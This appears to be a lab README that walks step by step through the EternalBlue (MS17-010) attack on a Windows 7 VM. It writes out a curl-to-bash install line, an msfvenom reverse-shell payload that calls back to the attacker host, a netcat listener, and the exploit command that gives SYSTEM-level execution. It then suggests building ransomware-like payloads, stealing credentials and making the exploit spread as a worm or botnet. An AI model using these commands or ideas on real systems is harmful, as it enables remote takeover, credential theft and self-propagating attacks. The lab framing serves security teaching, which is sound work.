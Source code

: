 # EternalBlue

- Built on: Environment: Kali Linux and Vulnerable Windows 7(64bit) VMs (2020.09)

## Preparation

On Linux: `curl -fsSL https://raw.githubusercontent.com/j-liang18/fh18c/main/eternalblue/install.sh | bash`

On Windows: merge https://raw.githubusercontent.com/j-liang18/fh18c/main/eternalblue/install.reg ([zip](https://raw.githubusercontent.com/j-liang18/fh18c/main/eternalblue/install.reg.zip))

## Steps

1. On Windows (`target.example.com`), share a folder (it doesn't matter which folder is shared. We only need to start the file sharing server software)
2. On Linux (`kali.example.com`), prepare a payload and name it `ms17-010.exe`. If you don't have something ready, try the reverse shell and create it with command: `msfvenom -p windows/shell_reverse_tcp LHOST=kali.example.com LPORT=8443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe`
3. If you're going with the reverse shell approach, listen on port 443 on Linux in another terminal window: `nc -nlvp 8443`
4. We omit the step to probe the victim and identify the vulnerabilities since we know about it, and directly run the attacking script: `python send_and_execute.py target.example.com ms17-010.exe`
5. Now your payload is running on the victim machine under `NT AUTHORITY\SYSTEM` privilege. We omit the step to verify that. If you're going with the reverse shell approach, You should get an inbound connection on your netcat server listening on port 8443, providing you with a shell (cmd). Every command you enter is executed on the victim machine.

## Exploration

- Inspect the Python scripts and related docs (protocol spec) and try to understand them, including how the smb protocol (Windows file sharing service) and server work, what the flaw is, how it is exploited, and how to fix it, etc.
- Design your own payload (like the ransomware in the news events, but you're not limited to ransomwares and can do anything on the victim. The guide in the reference proceeds with extracting login credentials from the system manually in the reverse shell).
- Think about implementing an exploit inside the payload, and the ability to probe other hosts reachable over the network, attack them and spread itself. This can be used to create a computer worm and/or botnet (discussed elsewhere).

## Reference

- [Exploiting MS17-010 without Metasploit (Win XP SP3)](https://ivanitlearning.wordpress.com/2019/02/24/exploiting-ms17-010-without-metasploit-win-xp-sp3/) 
